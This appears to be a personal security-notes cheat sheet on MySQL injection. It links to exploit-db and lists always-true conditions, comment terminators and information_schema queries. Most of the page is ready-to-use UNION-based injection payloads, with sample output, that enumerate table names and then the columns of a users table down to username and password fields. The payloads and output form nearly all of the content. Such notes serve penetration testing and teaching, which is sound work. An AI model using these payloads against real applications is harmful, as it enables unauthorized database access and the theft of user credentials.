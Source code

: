 # mysql injection

## External stuff

[exploit-db](https://www.exploit-db.com/papers/13045/) [ASCII table](https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md)

### Always True

1=1 a=a

### Escape/stop

```sql
# 
-- 
#--
```

### MySQL Verison

select version\(\)

### information Schema

#### Table names

```sql
SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables
```

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
```

```text
dummymalex:dummyms
table_schema = dummymalex
table_name   = dummyms
```

#### Hide stuff we dont need

```sql
AND table_schema != 'information_schema'
```

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```

```text
LIMIT 0,1
dummymalex:dummyms 
table_schema = dummymalex
table_name   = dummyms 

LIMIT 1,1 
dummymalex:users     
table_schema = dummymalex
table_name   = users
```

#### column\_name

```sql
SELECT column_schema,column_name FROM information_Schema.columns
```

#### Injection Example 1

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
dummyms

LIMIT 2,1
description
```

#### Injection Example 2

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
username

LIMIT 2,1
password
```

